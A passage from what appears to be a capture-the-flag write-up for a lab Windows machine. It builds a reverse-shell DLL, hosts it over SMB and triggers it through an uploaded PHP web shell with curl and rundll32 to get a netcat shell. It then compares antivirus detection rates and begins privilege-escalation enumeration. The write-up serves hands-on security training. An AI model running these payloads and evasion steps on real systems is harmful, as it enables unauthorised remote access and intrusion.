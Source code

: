 ```c
      break;
  }
  return TRUE;
}
```

Then compile and execute on the target:

```bash
# the above C code is saved in bubba_dll.c
i686-w64-mingw32-gcc bubba_dll.c -o bubba.dll -shared -s -lws2_32
# host payload over SMB (v2 needed since host is using a modern Windows)
sudo impacket-smbserver -smb2support BUBBA .
# start listener
nc -nvlp 6969
# send command to target (using ' to not escape \)
curl -s -G http://10.10.10.198:8080/upload/bubba.php --data-urlencode 'c=rundll32 \\10.10.14.17\BUBBA\bubba.dll,entrypoint'
```

This also returns a shell with the following AV hits:

![virustotal3](./buff/virustotal3.png)

Not 100% but still better than the original `shellter` payload. Now enumerate the target system for privilege escalation...

Looking for interesting user files shows the following:

```
dir "C:\Users\" /a /b /s 2>nul | findstr /v /i "Favorites\\" | findstr /v /i "AppData\\" | findstr /v /i "Microsoft\\" |  findstr /v /i "Application Data\\"
```
